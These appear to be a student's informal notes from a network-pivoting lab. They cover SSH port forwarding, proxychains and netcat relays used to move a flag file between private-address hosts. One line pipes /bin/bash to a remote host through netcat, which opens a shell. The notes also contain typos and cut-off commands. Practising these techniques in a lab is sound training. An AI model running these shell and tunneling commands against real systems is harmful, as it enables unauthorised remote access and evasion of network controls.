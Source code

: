 ```shell
     192.168.1.10: #the pricate ip
     22 #blue priv host ssh tunnel

     ssh student@127.0.0.1 -p 1111
     scp -P 1111 flag.png student@localhost: #this will send the file out the 1111 port to the priv computer 

     #now dynamic hosts, write in perspective of blue host 
     ssh student@172.16.82.106 -D 9050 -NT 
     proxychains scp flag.png student@192.168.1.10:
     #-P would be designatred port on the priv box
     ps -elf | grep 
     kill -9 "pid"


     #now using netcat for tunnels
     nc -lvp 1234 < flag.png

     nc 10.10.0.40 1234 > flag.png

     Internet client
     nc 172.16.82.106 1234
     ---------------------------------
     #2



     relay
     mkfifo fifopipe
     mknod nodpipe p
     10.
     nc -lvp 1234 <fifopipe | nc -lvp 4321 > fifopipe 
    ---------------------------------
     #2


     priv client
     nc 192.168.1.1 4321
     nc 172.16.82.106 1234 < flag.png
    ---------------------------------
     #2
     nc 192.168.1.1 4321 -e /bin/bash
```
More tunneling

ssh     -P<optional>  <user account>@<pivot ip>  -L <iptional local bind>:<local port>:<
        -p 22           student@172.16.82.115    -L 1111:localhost:22
        -p 1111         localhost

ssh -p22 student@176.16.82.106 -L 1111:localhost:22
ssh -p 1111 student@localhost
# this will pull the web page for the .106
ssh -p22 student@176.16.82.106 -L 1111:localhost:80
wget -r http://localhost:1111
